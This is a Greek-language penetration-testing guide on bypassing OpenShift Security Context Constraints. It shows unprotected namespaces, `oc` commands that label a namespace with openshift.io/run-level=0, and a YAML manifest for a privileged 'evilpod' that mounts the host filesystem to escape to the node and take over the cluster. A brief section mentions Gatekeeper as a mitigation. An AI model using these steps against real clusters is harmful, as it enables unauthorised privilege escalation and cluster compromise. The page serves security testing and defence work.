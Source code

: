 # Openshift - SCC bypass

**Ο αρχικός συγγραφέας αυτής της σελίδας είναι** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Privileged Namespaces

Από προεπιλογή, το SCC δεν εφαρμόζεται στα παρακάτω έργα:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Εάν αναπτύξετε pods μέσα σε ένα από αυτά τα namespaces, δεν θα επιβληθεί κανένα SCC, επιτρέποντας την ανάπτυξη privileged pods ή την προσάρτηση του συστήματος αρχείων του host.

## Namespace Label

Υπάρχει ένας τρόπος να απενεργοποιήσετε την εφαρμογή SCC στο pod σας σύμφωνα με την τεκμηρίωση της RedHat. Θα χρειαστεί να έχετε τουλάχιστον μία από τις παρακάτω άδειες:

- Δημιουργία Namespace και Δημιουργία Pod σε αυτό το Namespace
- Επεξεργασία Namespace και Δημιουργία Pod σε αυτό το Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Ο συγκεκριμένος ετικέτα `openshift.io/run-level` επιτρέπει στους χρήστες να παρακάμψουν τα SCC για εφαρμογές. Σύμφωνα με την τεκμηρίωση της RedHat, όταν αυτή η ετικέτα χρησιμοποιείται, δεν επιβάλλονται SCC σε όλα τα pods μέσα σε αυτό το namespace, αφαιρώντας αποτελεσματικά οποιουσδήποτε περιορισμούς.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Προσθήκη Ετικέτας

Για να προσθέσετε την ετικέτα στο namespace σας:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Για να δημιουργήσετε ένα namespace με την ετικέτα μέσω ενός αρχείου YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Τώρα, όλα τα νέα pods που δημιουργούνται στο namespace δεν θα πρέπει να έχουν κανένα SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

Ελλείψει SCC, δεν υπάρχουν περιορισμοί στον ορισμό του pod σας. Αυτό σημαίνει ότι ένα κακόβουλο pod μπορεί να δημιουργηθεί εύκολα για να διαφύγει στο σύστημα φιλοξενίας.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Τώρα, έχει γίνει πιο εύκολο να κλιμακώσετε τα δικαιώματα για να αποκτήσετε πρόσβαση στο σύστημα φιλοξενίας και στη συνέχεια να αναλάβετε ολόκληρο το cluster, αποκτώντας δικαιώματα 'cluster-admin'. Αναζητήστε το μέρος **Node-Post Exploitation** στην παρακάτω σελίδα:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Προσαρμοσμένες ετικέτες

Επιπλέον, με βάση την στοχοθετημένη ρύθμιση, ορισμένες προσαρμοσμένες ετικέτες / αναφορές μπορεί να χρησιμοποιηθούν με τον ίδιο τρόπο όπως το προηγούμενο σενάριο επίθεσης. Ακόμα και αν δεν είναι φτιαγμένες για αυτό, οι ετικέτες θα μπορούσαν να χρησιμοποιηθούν για να δώσουν δικαιώματα, να περιορίσουν ή όχι μια συγκεκριμένη πηγή.

Προσπαθήστε να αναζητήσετε προσαρμοσμένες ετικέτες αν μπορείτε να διαβάσετε κάποιες πηγές. Εδώ είναι μια λίστα με ενδιαφέρουσες πηγές:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Λίστα με όλα τα προνομιούχα namespaces
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Advanced exploit

Στο OpenShift, όπως αποδείχθηκε νωρίτερα, η κατοχή άδειας για την ανάπτυξη ενός pod σε ένα namespace με την ετικέτα `openshift.io/run-level` μπορεί να οδηγήσει σε μια απλή κατάληψη του cluster. Από την προοπτική των ρυθμίσεων του cluster, αυτή η λειτουργία **δεν μπορεί να απενεργοποιηθεί**, καθώς είναι εγγενής στο σχεδιασμό του OpenShift.

Ωστόσο, μέτρα μετριασμού όπως ο **Open Policy Agent GateKeeper** μπορούν να αποτρέψουν τους χρήστες από το να ορίσουν αυτή την ετικέτα.

Για να παρακάμψουν τους κανόνες του GateKeeper και να ορίσουν αυτή την ετικέτα για να εκτελέσουν μια κατάληψη του cluster, **οι επιτιθέμενοι θα χρειαστεί να εντοπίσουν εναλλακτικές μεθόδους.**

## References

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)

